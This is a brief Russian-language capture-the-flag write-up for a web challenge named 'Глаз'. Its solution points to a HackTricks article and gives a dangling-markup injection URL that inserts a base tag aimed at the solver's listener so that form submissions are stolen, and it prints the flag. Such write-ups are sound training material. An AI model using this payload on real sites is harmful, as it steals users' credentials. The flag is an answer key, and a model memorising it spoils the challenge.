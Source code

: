 # Глаз
## Сложность
Medium

## Описание
В расследовании недавнего преступления мы опробовали нашу новейшую автоматизированную информационную систему розыска преступников "Глаз". Работает как часы, но вот название так себе, правда? Там сейчас как принимают предложения о новом названии, может поучаствуешь?

## Решение:
https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection#stealing-forms
Скормить черкеру ссылку такого вида:
`http://taskurl:8081/login?title=<base href="your_listener_url">`

## Флаг
CTF{D4ngl1ng_M4rkup_Inj3ct10n}
